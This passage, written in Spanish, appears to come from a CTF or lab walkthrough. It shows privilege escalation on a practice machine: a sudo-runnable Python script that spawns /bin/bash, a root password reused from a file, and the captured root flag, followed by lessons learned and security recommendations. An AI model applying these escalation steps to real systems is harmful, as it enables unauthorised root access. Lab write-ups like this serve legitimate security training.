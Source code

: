 Su contenido es:
```python
#!/usr/bin/env python3

import os;
os.system("/bin/bash")
```

Explotamos el privilegio:
```bash
# Comando para escalar al usuario: ( 200-ok )
sudo -u 200-ok /home/404-page/calculator.py
```

###### Usuario `[ 200-ok ]`:
Listando los archivos para este usuario
```bash
-rw-r--r-- 1 root   root     20 Aug 19  2024 boss.txt
-rw-r--r-- 1 root   root     33 Aug 19  2024 user.txt
```

Tenemos dos archivos pero el que probamos como password para **root** es: **( boss.txt )** y su contenido:
```bash
What is rooteable
```

Probamos esta posible contrasena para **root**
```bash
su root # (rooteable  )
```

---

## Evidencia de Compromiso
Flag para **root**
```bash
-rw-r--r--  1 root root   33 Aug 19  2024 root.txt
root@7f21bcd0d78f:~# cat root.txt 
2424b2a3292e20c6e1ade39ed3e77629

```

```bash
# Captura de pantalla o output final
root@7f21bcd0d78f:~# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos que es **LDAP**
2. Aprendimos a aplicar inyecciones **LDAP**
3. Aprendimos a secuestrar archivos de otros usuario

## Recomendaciones de Seguridad
- Securizar el login para evitar **InyeccionesLDAP**
- Evitar otrorgar archivos con binarios peligrosos a otros usuarios del sistema.